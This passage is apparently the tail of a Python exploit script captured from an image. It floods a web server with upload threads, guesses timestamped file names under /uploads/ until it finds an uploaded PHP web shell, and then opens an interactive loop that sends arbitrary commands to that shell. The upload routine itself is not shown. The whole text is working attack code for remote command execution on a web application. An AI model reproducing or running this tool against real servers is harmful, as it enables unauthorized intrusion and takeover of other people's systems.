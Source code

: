 ```python
  while shellUrl is None:
    try:
      url = f"{host}/uploads/{tValue}_x.php"
      r = requests.get(url)
      if r.status_code == 200:
        shellUrl = url
    except:
      pass
    finally:
      theLock.acquire()
      tValue += 1
      theLock.release()


def execCmd(url, cmd="id"):
  data = {"cmd" : cmd}
  r = requests.post(url, data=data)
  return r.text


def main():
  if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <host>")
    print(f"Example: {sys.argv[0]} https://evilhost.com")
    sys.exit(1)

  global tValue
  global shellUrl

  print("[*] Uploading files ...")
  # start uploading
  for i in range(100):
    t = threading.Thread(target=upload, args=(sys.argv[1],))
    t.start()

  tValue = int(time.time()*1000)
  finderThreads = []

  # start trying to find one of the shells
  print("[*] Searching for our shell ...")
  for i in range(30):
    t = threading.Thread(target=finder, args=(sys.argv[1],))
    t.start()
    finderThreads.append(t)

  while shellUrl is None:
    time.sleep(1)


  print(f"[+] Found shell @ {shellUrl}\n")
  print(execCmd(shellUrl))

  while 1:
    cmd = input("> ")
    print(execCmd(shellUrl, cmd))


if __name__ == '__main__':
  main()

```
